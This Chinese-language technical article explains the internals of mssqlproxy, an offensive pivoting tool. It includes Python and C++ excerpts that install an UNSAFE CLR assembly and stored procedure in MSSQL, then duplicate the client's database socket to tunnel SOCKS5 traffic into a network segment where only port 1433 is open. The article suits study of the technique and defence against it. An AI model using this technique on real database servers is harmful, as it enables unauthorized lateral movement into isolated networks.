 ###  mssqlproxy实现



介绍了如何利用mssqlclient通过mssql作为socks代理，打通只开放1433端口的隔离网段。本文介绍其技术原理以及如何实现。

#### 0x00 本地代理端

首先，利用impacket套件的tds.py处理mssql登录过程（[TDS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tds/b46a581a-39de-4745-b076-ec4dbb7d13ec)，表格数据流协议，是一种数据库服务器和客户端间交互的应用层协议，
为微软SQL Server数据库和Sybase公司数据库产品所采用）。在登录之前返回了连接数据库的套接字对象

```Python
    def connect(self):
        af, socktype, proto, canonname, sa = socket.getaddrinfo(self.server, self.port, 0, socket.SOCK_STREAM)[0]
        
        sock = socket.socket(af, socktype, proto)
        
        try:
            sock.connect(sa)
        except Exception:
            #import traceback
            #traceback.print_exc()
            raise
        
        self.socket = sock
        return sock
```

后续本地的socks5流量便通过此sock通过1433端口发送到数据库服务器。

接着，开启clr，注册存储过程Microsoft.SqlServer.Proxy，以此启动数据库代理功能。

```python
mssql.batch("USE msdb; CREATE ASSEMBLY [%s] FROM 0x%s WITH PERMISSION_SET = UNSAFE" % (ASSEMBLY_NAME, data))
res = mssql.batch("USE msdb; SELECT COUNT(*) AS n FROM sys.assemblies where name = '%s'" % ASSEMBLY_NAME)[0]['n']
if res == 1:
     logging.info("Assembly successfully installed")
            
     mssql.batch("CREATE PROCEDURE [dbo].[%s]"
                        " @path NVARCHAR (4000), @client_addr NVARCHAR (4000), @client_port INTEGER"
                        " AS EXTERNAL NAME [%s].[StoredProcedures].[sp_start_proxy]" % (PROCEDURE_NAME, ASSEMBLY_NAME))
```

把socks服务端处理逻辑(reciclador.dll)上传到数据库服务器，并通过存储过程启动之。

```python
    try:
        #mssql.batch("DECLARE @ip varchar(15); SET @ip=TRIM(CONVERT(char(15), CONNECTIONPROPERTY('client_net_address')));"
        #            "EXEC msdb.dbo.%s '%s', @ip, %d" % (PROCEDURE_NAME, args.reciclador, lport), tuplemode=False, wait=False)
        mssql.batch("DECLARE @ip varchar(15); SET @ip=RTRIM(LTRIM(CONVERT(char(15), CONNECTIONPROPERTY('client_net_address'))))"
                    "EXEC msdb.dbo.%s '%s', @ip, %d" % (PROCEDURE_NAME, args.reciclador, lport), tuplemode=False, wait=False)
        data = mssql.socket.recv(2048)
        if 'Powered by blackarrow.net' in data:
            logging.info("ACK from server!")
            mssql.socket.sendall("ACK")
        else:
            logging.error("cannot establish connection")
            raise Exception('cannot establish connection')

        s.listen(10)
        while True:
            client, c = s.accept()
            thread.start_new_thread(proxy_worker, (mssql.socket, client))

```

这里的CONNECTIONPROPERTY为mssql内置函数，可获得数据库连接信息，此处返回客户端ip地址。之后，将客户端IP和客户端端口lport传入到reciclador.dll。reciclador返回"Powered by blackarrow.net"表示连接建立。之后，启动转发线程。在本地建立一个socket，监听1337端口，中转proxychains发送给数据库连接socket，再发送到数据库服务器。

```python
    while True:

        readable, writable, errfds = select.select([client, server], [], [], 60)

        for sock in readable:
            if sock is client:
                data = client.recv(2048)
                if len(data) == 0:
                    logging.info("Client disconnected!")
                    logging.debug("Sending end-of-tranmission")
                    server.sendall(MSG_END_OF_TRANSIMISSION)
                    return

                logging.debug("Client: %s" % data.encode('hex'))
                server.sendall(data)

            elif sock is server:
                data = server.recv(2048)
                if len(data) == 0:
                    logging.info("Server disconnected!")
                    return

                logging.debug("Server: %s" % data.encode('hex'))
                client.sendall(data)
```

Select.select实现了I/O复用，当client或者server套接字收到数据时，线程唤醒，转发数据。

#### 0x02 数据库代理端

数据库代理端主要是recicaldor进行逻辑处理，共享客户端连接数据库服务器的socket套接字。

首先，遍历系统中存在的套接字，并通过客户端ip和端口进行匹配，找到客户端套接字对象

```python
	int i;
	int len;
	struct sockaddr_in sockaddr;
	char ipbuf[INET_ADDRSTRLEN];

	WSAStartup(MAKEWORD(2, 0), &wsaData);

	int max_socket = 65536;
	int target = 0;

	// Iterate over all sockets
	for (i = 1; i < max_socket; i++) { 
		len = sizeof(sockaddr);

		// Check if it is a socket
		if (getpeername((SOCKET)i, (SOCKADDR*)&sockaddr, &len) == 0) {
			if (strcmp(inet_ntoa(sockaddr.sin_addr), client_addr) == 0 && (client_port == 0 || sockaddr.sin_port == htons(client_port))) {
				target = i;
				break;
			}
		}
	}
```

接着，使用[WSADuplicateSocket](https://docs.microsoft.com/zh-cn/windows/win32/api/winsock2/nf-winsock2-wsaduplicatesocketa?redirectedfrom=MSDN)共享该套接字。对要共享的socket调用WSADuplicateSocket，将返回的WSAPROTOCOL_INFO结构体传递给目标进程，然后目标进程用这个结构体调用WSASocket创建一个新的socket描述符，这个socket即指向原来的socket。每次生成的WSAPROTOCOL_INFO结构只能用于创建一次共享socket。另外就是Windows并没有对共享socket有IO访问控制的机制，这意味这如果在新的socket上调用recv，那么原程序就没法再recv了；如果两个程序同时调用了send而没有执行同步机制，那么send的数据也将会是乱掉的。

```C++
		SOCKET dup = INVALID_SOCKET;
		WSAPROTOCOL_INFO sockstate;
		if (WSADuplicateSocket(target, GetCurrentProcessId(), &sockstate) == 0)
		{
			dup = WSASocket(FROM_PROTOCOL_INFO, FROM_PROTOCOL_INFO, FROM_PROTOCOL_INFO, &sockstate, 0, 0);
		}

		if (dup == INVALID_SOCKET) {
			return -1; // exit :(
		}

```

最后，便是利用共享的套接字转发处理socks5流量。